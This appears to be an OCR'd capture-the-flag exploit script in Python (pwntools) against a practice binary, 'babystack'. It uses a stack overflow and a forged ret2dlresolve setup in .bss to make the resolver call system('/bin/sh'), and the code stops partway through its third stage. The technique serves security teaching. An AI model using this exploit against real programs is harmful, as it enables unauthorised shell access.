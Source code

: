 ```python
#!/usr/bin/env python3
from pwn import *

def start(argv=[], *a, **kw):
    return process([exe] + argv, *a, **kw)

exe = './babystack'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

# push link_map & call dl_resolve
PLT0 = elf.get_section_by_name(".plt")["sh_addr"]
BSS = elf.get_section_by_name(".bss")["sh_addr"]
STRTAB, SYMTAB, JMPREL = map(elf.dynamic_value_by_tag,["DT_STRTAB", "DT_SYMTAB", "DT_JMPREL"])

vuln = 0x804843b
leave_ret = 0x080483a8

io = start()

payload2_size = 44

#____STATE 1: call read(0, bss, size), then ret to vuln________
payload1 = flat({
  44: [
    elf.sym.read,
    vuln,         # After the read call, return to vuln
    0,            # stdin
    BSS,          # place to write forge .rel.plt and .dynsym
    payload2_size,
  ]
})
io.send(payload1)

#____STATE 2: Set up forge area in BSS section_________________
dynsym_idx = ((BSS + (0x4*3)) - SYMTAB) // 0x10
r_info = (dynsym_idx << 8) | 0x7

# Calculate the offset from the start of dynstr section 
# to our dynstr entry
dynstr_offset = (BSS + (0x4*7)) - STRTAB

payload2 = flat({
  0: [
    # .rel.plt
    elf.got.alarm,  # r_offset
    r_info,         # r_info
    0,              # r_addend

    # .dynsym
    dynstr_offset,  # st_name
    p32(0)*3,       # other

    b'system\x00\x00',

    b'/bin/sh\x00',
  ]
})
io.send(payload2)

#____STATE 3: call PLT0 (resolver) = system('/bin/sh')_________
binsh_addr = BSS + 12 + 16 + 8
# Calculate the .rel.plt offset
```